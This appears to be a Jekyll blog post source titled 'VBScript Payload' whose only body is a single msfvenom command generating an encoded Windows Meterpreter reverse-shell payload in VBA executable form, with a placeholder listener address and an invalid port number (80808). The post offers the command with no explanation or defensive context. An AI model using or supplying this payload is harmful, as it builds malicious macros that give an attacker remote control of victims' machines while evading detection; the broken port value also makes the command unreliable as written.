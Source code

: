 ```yaml
---
layout: post
title: VBScript Payload
categories: [Hacking]
tags: [Kali, Linux, Hacking]
description: Visual Basic Script Payload Metasploit Framework
fullview: true
comments: true
---
```


{% highlight yaml %}
$msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.xx LPORT=80808 -e x86/shikata_ga_nai -f vba-exe
{% endhighlight %}
